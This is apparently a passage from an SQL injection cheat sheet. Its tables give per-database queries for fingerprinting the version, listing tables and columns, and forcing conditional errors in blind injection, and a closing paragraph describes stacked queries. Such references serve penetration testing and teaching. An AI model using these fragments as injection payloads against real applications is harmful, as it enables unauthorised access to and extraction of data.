 ## Database version

| DBMS | Syntax |
|---|---|
| Oracle | SELECT banner FROM v$version |
| | SELECT version FROM v$instance |
| Microsoft | SELECT @@version |
| PostgreSQL | SELECT version() |
| MySQL | SELECT @@version |

## Database contents

| DBMS | Syntax |
|---|---|
| Oracle | SELECT * FROM all_tables |
| | SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' |
| Microsoft | SELECT * FROM information_schema.tables |
| | SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' |
| PostgreSQL | SELECT * FROM information_schema.tables |
| | SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' |
| MySQL | SELECT * FROM information_schema.tables |
| | SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' |

## Conditional errors

| DBMS | Syntax |
|---|---|
| Oracle | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual |
| Microsoft | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END |
| PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END |
| MySQL | SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') |

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay. 
